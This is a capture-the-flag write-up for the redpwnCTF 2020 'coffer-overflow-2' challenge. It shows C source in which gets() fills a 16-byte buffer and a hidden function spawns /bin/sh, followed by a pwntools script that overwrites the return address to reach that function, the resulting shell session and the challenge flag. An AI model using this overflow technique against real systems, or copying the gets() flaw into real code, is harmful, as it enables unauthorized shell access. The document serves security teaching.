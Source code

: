 # coffer-overflow-2

Author: [roerohan](https://github.com/roerohan)

This is a simple buffer overflow challenge.

# Requirements

- Basic Buffer overflow.

# Source

- [coffer-overflow-2](./coffer-overflow-2).

```
You'll have to jump to a function now!?

nc 2020.redpwnc.tf 31908
```

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);
}

void binFunction() {
  system("/bin/sh");
}
```

# Exploitation

Check out [coffer-overflow-1](../coffer-overflow-1) for some details. You can checkout how buffer overflow works [here](https://github.com/csivitu/Incore-Sessions/blob/master/Buffer%20Overflow/Session-1.md).
<br />

Here, we basically need to overwrite the return pointer from `main` so that it returns to `binFunction`. We know, main has a stack of size 16. You can get the address of `binFunction` using `gdb` or `objdump`.

```
$ objdump -d coffer-overflow-2 | grep binFunction
00000000004006e6 <binFunction>:
```

Now, write this address in little endian over the return pointer of main. That is, 16 random characters, 8 more to overwrite the `saved rbp`, and the address to overwrite the `saved rip`.

```python
import pwn

r = pwn.remote('2020.redpwnc.tf', 31908)

rep = b'a'*16 + b'b'*8 + pwn.p64(0x004006e6)
print(rep)
r.sendline(rep)
r.interactive()
```

Run this using `python`.

```bash
$ python cof2.py 
[+] Opening connection to 2020.redpwnc.tf on port 31908: Done
b'aaaaaaaaaaaaaaaabbbbbbbb\xe6\x06@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
$ ls
Makefile
bin
coffer-overflow-2
coffer-overflow-2.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}
```

The flag is:

```
flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}
```